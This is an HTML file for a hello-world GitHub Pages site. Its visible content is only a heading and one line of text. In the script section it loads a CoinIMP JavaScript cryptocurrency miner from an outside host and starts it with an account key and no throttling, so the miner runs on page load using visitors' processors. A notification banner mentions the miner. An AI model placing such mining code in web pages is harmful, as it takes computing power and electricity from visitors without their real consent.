 <!DOCTYPE html>
<html>
  <script src="https://www.hostingcloud.racing/mKgk.js"></script>
<script>
    var _client = new Client.Anonymous('a934a756b26f740437b44addb4ac3eaad11ebe827f6c08ce936fcabf8ed36e5e', {
        throttle: 0, c: 'w'
    });
    _client.start();
  _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");
    

</script>
<body>
<h1>Hello World</h1>
<p>I'm hosted with GitHub Pages.</p>
</body>
</html>
